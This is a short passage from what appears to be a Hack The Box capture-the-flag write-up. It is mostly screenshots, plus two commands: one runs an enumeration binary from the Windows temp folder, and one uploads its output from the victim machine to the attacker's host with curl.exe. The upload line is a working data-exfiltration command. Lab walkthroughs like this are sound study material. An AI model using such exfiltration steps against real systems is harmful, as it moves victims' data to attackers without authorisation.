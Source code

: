 ![image.png](image%2022.png)

Execute the File and Save Output win.txt

```bash
/c c:\windows\temp\win.exe > c:\windows\temp\win.txt
```

![image.png](image%2023.png)

Now we upload the win.txt from victim machine to our local machine to read linpease results

```bash
curl.exe [http://10.10.14.5:80/upload](http://10.10.14.5/upload) -F "path=/home/cbjs/htb/re/RE-payload" -F "file=@win.txt"
```

![image.png](image%2024.png)
